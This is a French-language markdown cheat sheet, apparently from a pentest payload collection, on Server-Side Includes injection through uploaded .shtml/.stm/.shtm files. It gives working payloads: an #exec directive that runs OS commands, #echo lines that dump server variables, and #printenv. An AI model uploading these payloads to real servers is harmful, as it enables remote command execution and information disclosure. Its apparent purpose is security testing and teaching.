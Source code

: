 # Server Side Includes

**Facteur de risque** : RCE et Information Disclosure via Server-Side Includes (SSI) Injection

**Extension** : `.shtml`, `.stm`, `.shtm`

**Description** : Les **Server Side Includes** (SSI) sont un langages de programmation fait pour être interprété par un serveur HTTP. Ils sont surtout utile pour inclure le contenu d'un ou plusieurs fichiers dans une page web sur un serveur web, en utilisant `#include`.

## Sommaire

- RCE via Server-Side Includes (SSI) Injection
- Infomation Disclosure

## RCE via Server-Side Includes (SSI) Injection

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé
- Le serveur supporte les Server Side Includes
- La directive `#exec` doit être autorisé

### Attaque

**rce.shtml**, **rce.stm**, **rce.shtm**

```html
<pre><!--#exec cmd="whoami" --></pre>
```

Les balises `<pre>` permettent d'avoir la sortie de la commande préformaté (préservation à la fois des espaces et les sauts de ligne, avec une police à largeur fixe).
La commande peut être modifiée en replaçant `whoami` par une autre commande OS.

## Information Diclosure avec #echo

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé
- Le serveur supporte les Server Side Includes

### Attaque

Les SSI peuvent être utilisés pour accéder aux informations du serveur :

**info.shtml**, **info.stm**, **info.shtm**

```html
<!--#config timefmt="%A, %d %B %Y, %H:%M:%S"-->

Server Name :
<pre><!--#echo var="SERVER_NAME" --></pre>
Server Software :
<pre><!--#echo var="SERVER_SOFTWARE" --></pre>
Server Adress :
<pre><!--#echo var="SERVER_ADDR" --></pre>
Server Port :
<pre><!--#echo var="SERVER_PORT" --></pre>
Date Local :
<pre><!--#echo var="DATE_LOCAL" --></pre>
Date GMT :
<pre><!--#echo var="DATE_GMT" --></pre>

Document Name :
<pre><!--#echo var="DOCUMENT_NAME" --></pre>
Document URI :
<pre><!--#echo var="DOCUMENT_URI" --></pre>
Last Modified :
<pre><!--#echo var="LAST_MODIFIED" --></pre>
```

## Information Diclosure avec #printenv

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé
- Le serveur supporte les Server Side Includes
- Le serveur est sur Apache (?)
- La directive `#printenv` est autorisée

### Attaque

Parfois, la directive `#printenv` peut être utilisée (ce qui est peu probable dans un système de production) :

**printenv.shtml**, **printenv.stm**, **printenv.shtm**

```html
<pre><!--#printenv --></pre>
```

## References

[Server-Side Includes (SSI) Injection Software Attack | OWASP Foundation](https://owasp.org/www-community/attacks/Server-Side_Includes_(SSI)_Injection)

[Server Side Includes: Echo Command, SSI-Developer.net](http://www.ssi-developer.net/ssi/ssi-echo.shtml)

[Server Side Includes - Wikipedia](https://en.wikipedia.org/wiki/Server_Side_Includes)

[SSI Examples](https://users.cs.fiu.edu/~downeyt/cgs4825/ssi.shtml)

[Exploiting Server Side Include Injection &#8211; n00py Blog](https://www.n00py.io/2017/08/exploiting-server-side-include-injection/)

## Todo

- Écrire un script pour le RCE

- Exemple 3 de l'OWASP, avec le CVE 2001-0506

- Ajouter le XSS comme pour une page HTML

